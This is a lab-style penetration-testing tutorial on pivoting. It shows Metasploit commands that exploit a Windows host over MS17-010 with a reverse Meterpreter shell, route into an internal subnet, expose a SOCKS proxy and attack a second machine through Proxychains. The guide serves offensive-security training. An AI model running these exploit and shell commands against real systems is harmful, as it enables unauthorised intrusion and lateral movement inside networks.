 ````markdown
# Pivoting and Routing Tables in Penetration Testing

This guide explains how to pivot from one compromised target (`Target1`) to another internal target (`Target2`) using **Metasploit, SOCKS Proxy, and Proxychains**.  
Each step includes explanation of **what happens after the command** and **why it is needed**.  

---

## 🔑 Key Concepts

### Pivoting
- Pivoting = using a compromised machine (`Target1`) as a **bridge** to access other machines (`Target2`) in a restricted/internal network.

---

### SOCKS Proxy
- A **SOCKS proxy** forwards network traffic through a proxy server.  
- In this setup:  
  - Metasploit runs a SOCKS proxy on Kali (`127.0.0.1:1080`).  
  - Any traffic sent to this proxy is tunneled through `Target1` → then into the internal network (`192.168.205.0/24`).  

👉 **Here we use SOCKS to make the internal network reachable for tools outside Metasploit.**

---

### Proxychains
- **Proxychains** forces any application (nmap, msfconsole, sqlmap, etc.) to use a proxy (like our SOCKS5 proxy).  
- By combining Proxychains with the SOCKS proxy:  
  - We can run tools **from Kali**, but they behave as if running **from inside Target1**.  
  - Without Proxychains, only Metasploit modules can reach Target2 (because autoroute works only in Metasploit).  

👉 **Here we use Proxychains to redirect Kali’s external tools through the SOCKS proxy into Target1 → Target2.**

---

### Strict Chain vs Dynamic Chain
- **Strict Chain**: Traffic must follow all proxies listed in config in order. If one fails, the whole chain fails.  
- **Dynamic Chain**: Skips dead proxies, more flexible and practical.  

👉 That’s why we enable **dynamic_chain** and disable **strict_chain** in Proxychains config.

---

## 🖥️ Network Setup

- **Attacker (Kali Linux)**  
  - IP: `192.168.0.139`

- **Target1 (Windows 10 - Compromised Pivot)**  
  - External: `192.168.0.117`  
  - Internal: `192.168.205.105`

- **Target2 (Windows 10 - Internal Only)**  
  - Internal: `192.168.205.106`

---

## 🚀 Step 1: Exploit Target1

```bash
msfconsole
````

➡️ Launch Metasploit.

```bash
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
```

➡️ Load EternalBlue exploit and set reverse Meterpreter payload.

```bash
set RHOST 192.168.0.117
set SMBUSER forensic
set SMBPASS admin
set LHOST 192.168.0.139
set LPORT 6622
```

➡️ Configure attacker and victim details.

```bash
exploit
```

➡️ Get Meterpreter session on **Target1**. 🎉

---

## 🚩 Step 2: Add Routing in Metasploit

```bash
use post/multi/manage/autoroute
set SESSION 1
run
```

➡️ Adds a route to the **internal network** via Target1.

* Now Metasploit modules can reach `192.168.205.0/24`.
* ❗ But external tools (like `nmap`) still **cannot** reach Target2.

```bash
route
```

➡️ Confirms new route exists in Metasploit’s routing table.

---

## 🧩 Step 3: Enable SOCKS Proxy

```bash
use auxiliary/server/socks_proxy
run
```

➡️ Starts a SOCKS proxy on Kali (`127.0.0.1:1080`).

```bash
jobs
```

➡️ Confirms SOCKS proxy is running.

**Why this step?**

* Routing table lets **only Metasploit** talk to Target2.
* SOCKS proxy exposes that route to **all tools** via a local proxy.

---

## ⚙️ Step 4: Configure Proxychains

```bash
mousepad /etc/proxychains4.conf
```

* Edit config file:

  ```text
  dynamic_chain     # enable dynamic chain (flexible)
  # strict_chain    # disable strict chain
  socks5 127.0.0.1 1080   # use our Metasploit SOCKS proxy
  ```

➡️ Now any command run with `proxychains` will tunnel traffic through Target1 → Target2.

---

## 🔍 Step 5: Scan and Exploit Target2

### Scan Target2

```bash
proxychains nmap -p 139,445 -sT -n -Pn 192.168.205.106
```

➡️ Nmap scan now reaches Target2 via the SOCKS proxy.

### Launch Metasploit Through Proxychains

```bash
proxychains msfconsole
```

➡️ Starts Metasploit with all traffic redirected through Proxychains.

### Exploit Target2

```bash
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.205.106
set SMBUSER forensic
set SMBPASS admin
set LPORT 6644
exploit
```

➡️ Exploits Target2 (internal machine) successfully.

---

## 📊 How It All Works (Flow Diagram)

```text
   [ Kali Linux ]
        |
        |  proxychains → SOCKS5 (127.0.0.1:1080)
        |
   [ Target1 - Compromised ]
        |
        |  internal network (192.168.205.0/24)
        |
   [ Target2 - Internal Only ]
```

* **Step 2 (autoroute)**: Adds route, but usable only inside Metasploit.
* **Step 3 (SOCKS proxy)**: Opens that route to external tools.
* **Step 4 (Proxychains)**: Forces Kali’s tools to use SOCKS proxy.
* **Result**: Any tool from Kali can now access `Target2` as if we were on Target1.

---

## ✅ Key Takeaways

* **SOCKS Proxy**: Opens the pivot path to external tools.
* **Proxychains**: Redirects Kali’s tool traffic into the SOCKS proxy.
* **Dynamic Chain**: More flexible, skips dead proxies.
* **Strict Chain**: Rigid, fails if one proxy is down.
* **Workflow**:

  1. Exploit Target1.
  2. Add route.
  3. Start SOCKS proxy.
  4. Configure Proxychains.
  5. Scan/exploit Target2 using any tool.

---
